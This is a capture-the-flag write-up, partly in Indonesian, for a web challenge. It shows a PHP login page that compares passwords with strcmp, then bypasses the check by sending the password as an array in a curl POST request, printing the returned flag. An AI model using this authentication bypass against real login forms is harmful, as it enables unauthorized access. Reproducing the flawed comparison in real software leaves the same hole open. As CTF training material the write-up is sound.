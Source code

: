 <h1><b>See the source</h1></b>
<pre>
We were sipping coffee in SDSLabs when I got a mail from a friend of mine. 
He had a small challenge for us. He wanted us to hack into his web page and find the flag. 
That fool even gave us part of the source code for his page. 
It was merely cakewalk for us thereafter. See if you can find the flag.

<a href='http://hack.bckdr.in:16014/'>Here</a> is the link for the webpage and <a href='http://hack.bckdr.in:16014/src.txt'>here</a> is the link of the source.
</pre>
</b><h3>Solution</h3></b>
<p>Pada soal kita diberikan source php</p>

```php
<?php
	include("flag.php");

	$error = 0;

	if(isset($_POST['password']))
	{	$password = $_POST['password'];
		if(strcmp($password, $actual_password)==0)
		{
			echo "You have successfully authenticated!<br>";
			echo "Flag : ".$flag;
			die;
		}
		else
			$error = 1;
	}
?>
```
<p>Pada eksekusi program diatas terdapat fungsi strcmp yaitu pembanding string, dan itu terdapat pada statment password yang kita input dengan password pada database</p>
<p>strcmp itu beroperasi seperti jika kita compare string1 dengan string2 bernilai = 0 maka string tersebut sama, dan bernilai besar dari 0 jika berbeda</p>
<p>string compare dapat dibypass dengan menambah buka dan tutup kurung siku pada variabel name, seperti eksekusi dengan curl dibawah ini</p>

```console
root@Python:/home/venom/Downloads# curl --data "password[]=bypass" http://hack.bckdr.in:16014/
You have successfully authenticated!<br>Flag : b0a524a10572548e34b025471a023b4aea220f7b202f422f7b5d5c68592c8faa
root@Python:/home/venom/Downloads# 
```

</b><h3>Flag</h3></b>
<pre>
b0a524a10572548e34b025471a023b4aea220f7b202f422f7b5d5c68592c8faa
</pre>

